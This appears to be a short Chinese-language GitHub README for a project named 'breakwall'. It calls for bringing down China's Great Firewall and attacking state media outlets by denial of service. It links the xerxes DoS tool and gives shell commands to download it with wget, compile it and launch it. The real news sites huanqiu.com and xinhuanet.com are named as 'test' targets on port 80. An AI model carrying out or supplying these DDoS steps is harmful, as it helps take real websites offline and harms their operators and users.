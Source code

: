 # breakwall - 推到防火长城
众所周知防火长城是中共为了掩盖真相建立的，随着中国内部越来越复杂，民怨此起彼伏，因此想到一个计划，试图通过一些手段推倒防火长城, 希望各位反对暴政同伴们一起交流技术，为了我们的自由一起努力

1. 通过DDOS攻陷防火长城
2. 通过攻击一些共产宣传工具, 如新华社， 环球时报
3. 使用http不停的试图连接耗尽共军资源


## 下面是一些工具的链接

Dos 攻击工具 https://github.com/zanyarjamal/xerxes
```shell
使用
wget https://raw.githubusercontent.com/zanyarjamal/xerxes/master/xerxes.c
gcc xerxes.c -o xerxes
./xerxes www.fakesite.com 80

测试地址
www.huanqiu.com 80
www.xinhuanet.com 80
```
 
